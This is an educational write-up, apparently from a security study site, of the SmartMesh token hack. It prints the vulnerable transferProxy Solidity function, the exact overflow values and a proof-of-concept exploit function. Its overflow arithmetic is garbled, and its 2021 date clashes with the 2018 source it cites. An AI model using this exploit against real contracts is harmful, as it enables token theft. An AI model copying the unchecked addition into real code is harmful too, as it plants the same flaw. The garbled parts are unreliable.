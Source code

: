 # SmartMesh


## Amount stolen
**$140M USD**

March 9,2021

## Vulnerability
Arithmetic overflow

## Analysis
The exploiter leveraged an arithmetic overflow vulnerability in the user balance check. The critical code snippet is:

```
if(balances[_from] < _feeSmt + _value) revert();
```

This condition is meant to ensure that a user's balance (balances[_from]) is sufficient to cover both the transfer amount (_value) and the associated fee (_feeSmt). 
However, this check can be bypassed using carefully chosen values that cause an overflow.

Consider the following values for _value and _feeSmt:

```
uint256 _value = uint256(0x8fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff);
uint256 _feeSmt = uint256(0x7000000000000000000000000000000000000000000000000000000000000001);
```

These hexadecimal numbers are extremely large. When added together, they exceed the maximum value that a uint256 can hold (i.e., 2^256 -1) The addition of these numbers results in an overflow:

ox8fffff + 0x700

Since this result exceeds the uint256 limit, it wraps around due to overflow and the effective sum becomes:

ox10ffffffff = 0

In this context, the sum of _feeSmt and _value causes an overflow and effectively becomes zero. This makes the condition:

```
if (balances[_from] < 0) revert();
```

Since no balance can be less than zero, the check is bypassed, allowing the user to proceed with the transaction regardless of their actual balance.


This oversight in handling arithmetic overflow enables the attacker to transfer an unlimited amount of tokens

### Exploited code

```  
    /*
     * Proxy transfer SmartMesh token. When some users of the ethereum account has no ether,
     * he or she can authorize the agent for broadcast transactions, and agents may charge agency fees
     * @param _from
     * @param _to
     * @param _value
     * @param feeSmt
     * @param _v
     * @param _r
     * @param _s
     */
    function transferProxy(address _from, address _to, uint256 _value, uint256 _feeSmt,
        uint8 _v,bytes32 _r, bytes32 _s) public transferAllowed(_from) returns (bool){

        if(balances[_from] < _feeSmt + _value) revert();

        uint256 nonce = nonces[_from];
        bytes32 h = keccak256(_from,_to,_value,_feeSmt,nonce);
        if(_from != ecrecover(h,_v,_r,_s)) revert();

        if(balances[_to] + _value < balances[_to]
            || balances[msg.sender] + _feeSmt < balances[msg.sender]) revert();
        balances[_to] += _value;
        Transfer(_from, _to, _value);

        balances[msg.sender] += _feeSmt;
        Transfer(_from, msg.sender, _feeSmt);

        balances[_from] -= _value + _feeSmt;
        nonces[_from] = nonce + 1;
        return true;
    }
```

# Proof of concept (PoC) 

To demonstrate the arithmetic overflow vulnerability, we can exploit the balance check by using specific overflow values for _value and _feeSmt. Here’s how this can be executed:

##Initial State:

###Balances:
```
balances[_from] (address 0xDF31A499A5A8358b74564f1e2214B31bB34Eb46F) had a balance of 0 tokens.
balances[_to] (address 0xDF31A499A5A8358b74564f1e2214B31bB34Eb46F) had a balance of 0 tokens.
balances[msg.sender] (address 0xD6A09BD01B74fF1eD94d9Cc71f7CE2B8Bd646aF7) had a balance of 0 tokens.
```

###Exploit Parameters:
```
_value is set to 0x8fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff.
_feeSmt is set to 0x7000000000000000000000000000000000000000000000000000000000000001.
```

These values, when added, exceed the uint256 maximum value, causing an overflow which results in the effective sum being zero.

### Exploit Function
The following Solidity function demonstrates how the exploit can be performed:

```
function testExploit() public balanceLog {
        address _from = 0xDF31A499A5A8358b74564f1e2214B31bB34Eb46F;
        address _to = 0xDF31A499A5A8358b74564f1e2214B31bB34Eb46F;
        uint256 _value = uint256(0x8fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff);
        uint256 _feeSmt = uint256(0x7000000000000000000000000000000000000000000000000000000000000001);
        uint8 _v = uint8(0x000000000000000000000000000000000000000000000000000000000000001b);
        bytes32 _r = 0x87790587c256045860b8fe624e5807a658424fad18c2348460e40ecf10fc8799;
        bytes32 _s = 0x6c879b1e8a0a62f23b47aa57a3369d416dd783966bd1dda0394c04163a98d8d8;
        ISmartMesh(Victim).transferProxy(
            _from,
            _to,
            _value,
            _feeSmt,
            _v,
            _r,
            _s
        );
    }

```

**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/2018-04/SmartMesh_exp.sol)




[**< Back**](https://patronasxdxd.github.io/CTFS/)
